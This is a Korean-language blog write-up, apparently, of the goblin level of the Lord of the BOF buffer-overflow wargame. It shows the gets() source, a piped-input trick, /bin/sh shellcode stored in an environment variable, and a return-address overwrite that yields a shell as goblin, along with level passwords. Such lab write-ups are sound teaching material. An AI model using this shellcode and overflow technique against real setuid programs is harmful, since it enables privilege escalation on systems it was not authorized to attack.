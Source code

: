 ```yaml
---
title: LOB 3번 Write-up
date: 2017-9-3 15:42:00
categories: LOB
tags: LOB, cobolt, goblin
---
```


## LOB 3번

이번 레벨은 cobolt이다. 비밀번호는 hacking exposed이다.

    [cobolt@localhost cobolt]$ ls -l
    total 16
    -rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
    -rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c
    [cobolt@localhost cobolt]$ cat goblin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - goblin
            - small buffer + stdin
    */
    
    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }

참고를 위해 LOB 2번 문제인 cobolt의 소스도 아래에 올려두었다.

    [gremlin@localhost gremlin]$ cat cobolt.c
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

### 입력방식의 차이

두 프로그램은 문자열을 받아오는 방식에 있어서 서로 다르다. 이전의 문제에서는 `strcpy`를 통해 문자열을 받아왔으나, 이번 문제에서는 프로그램 실행 후 `gets()`를 통해 문자열을 받아오는 것이다. 아래의 경우를 보며 확인해보자.

    [cobolt@localhost cobolt]$ ./goblin `python -c 'print"a"*21'`
    hello
    hello

위처럼 python으로 전달한 값은 무시되고 직접 hello를 입력한 값만 받아온다. 그렇다고 방법이 없는 것은 아니다. 아래와 같이 FTZ 3번 문제처럼 세미콜론을 사용하고, 괄호와 파이프를 적절히 조합하면 값을 전달할 수 있다.

    (python -c 'print "A"*21';cat)|./goblin

python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 `cat`명령어로 값을 넘겨주는 것이다. 세미콜론은 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다. 그렇다면 왜 2개를 섞어서 사용해야 할까.



### 쉘코드
    
    [cobolt@localhost cobolt]$ export shell = `python -c 'print "\x31\xc0\xb0\x31\xc                                      d\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6                                      8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [cobolt@localhost cobolt]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [cobolt@localhost cobolt]$ gcc -o addr addr.c
    [cobolt@localhost cobolt]$ ./addr
    0xbfffff1c

참고로 메모리구조는 이전과 같다.

buffer(16byte)	|	SFP(4byte)	|	RET(4byte)

    [cobolt@localhost cobolt]$ ./addr
    0xbffffb34
    [cobolt@localhost cobolt]$ (python -c 'print "A"*16 + "\x90"*4 + "\x34\xfb\xff\xbf"';cat)|./goblin
    AAAAAAAAAAAAAAAA4ûÿ¿
    id
    uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
    my-pass
    euid = 503
    hackers proof

문제 소스는 비슷한데, 원리를 찾아보고 하니 생각보다 어려워진다.